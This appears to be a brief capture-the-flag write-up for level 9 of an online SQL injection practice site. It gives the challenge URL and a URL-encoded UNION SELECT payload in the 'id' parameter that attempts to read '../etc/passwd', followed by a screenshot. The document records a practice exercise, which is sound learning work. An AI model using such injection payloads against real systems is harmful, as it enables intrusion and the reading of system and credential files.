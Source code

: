 Chall Url:http://www.zixem.altervista.org/SQLi/lvl9.php?id=1
Payload:
http://www.zixem.altervista.org/SQLi/lvl9.php?id=-1%27%20union%20select%20%27../etc/passwd%27,2%27%20--+-

![](https://user-images.githubusercontent.com/25671488/61189666-282bf300-a6ae-11e9-9108-8fe3044b34d1.png)
